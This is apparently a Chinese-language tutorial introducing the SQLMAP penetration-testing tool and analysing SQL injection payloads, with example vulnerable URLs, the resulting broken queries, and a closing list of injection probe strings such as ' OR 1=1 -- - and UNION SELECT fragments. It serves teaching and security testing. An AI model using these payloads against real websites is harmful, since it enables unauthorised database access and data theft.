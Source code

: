 
# 一、SQLMAP简介
SQLMAP是一个开放源代码渗透测试工具，它可以自动检测和利用SQL注入漏洞并接管数据库服务器的过程。它具有强大的检测引擎，针对最终渗透测试仪的众多细分功能以及从数据库指纹识别，从数据库获取数据到访问基础文件系统以及通过外出在操作系统上执行命令的多种开关。

	当SQLMAP识别到`http://192.168.136.131/SQLMAP/mysql/get_int.php?id=1`这么一个URL的时候，它会：

1. 判断可注入的参数
2. 判断可以用那种SQL注入技术来注入
3. 识别出哪种数据库
4. 根据用户选择，读取哪些数据

**SQLMAP支持五种不同的注入模式：**

1. 基于布尔的盲注，即可以根据返回页面判断条件真假的注入。
2. 基于时间的盲注，即不能根据页面返回内容判断任何信息，用条件语句查看时间延迟语句是否执行（即页面返回时间是否增加）来判断。
3. 基于报错注入，即页面会返回错误信息，或者把注入的语句的结果直接返回在页面中。
4. 联合查询注入，可以使用union的情况下的注入。
5. 堆查询注入，可以同时执行多条语句的执行时的注入。

**SQLMAP支持的数据库：**`MySQL, Oracle, PostgreSQL, Microsoft SQL Server, Microsoft Access, IBM DB2, SQLite, Firebird, Sybase和SAP MaxD`


# 二、SQL-Payload分析

## 2.1、判断注入点
**2.1.1、通用判断方法**<br />设有一个URL为：`http://xmtxsec.top/test.php/?id=1`<br />后台SQL语句为：`$sql="select * from users where id='$id' limit 0,1"`

当我们输入`http://xmtxsec.top/test.php/?id=1'`<br />实际执行的SQL语句为：`select * from users where id='1'' limit 0,1`<br />**分析：**此时SQL语句中的语法存在错误，Web页面会给我们返回错误。

这时可以继续输入：`http://xmtxsec.top/test.php/?id=1'--+`<br />此时的SQL语句为：`select * from users where id='1'--+' limit 0,1`<br />**分析：**此时真正执行的SQL语句为`select * from users where id='1'`，Web页面正常回显，说明此处存在SQL注入。

**类似的Payload有：**
```
'
''
`
``
,
"
""
/
//
\
\\
;
' or "
-- or # 
' OR '1
' OR 1 -- -
" OR "" = "
" OR 1 = 1 -- -
' OR '' = '
'='
'LIKE'
'=0--+
 OR 1=1
' OR 'x'='x
' AND id IS NULL; --
'''''''''''''UNION SELECT '2
%00
```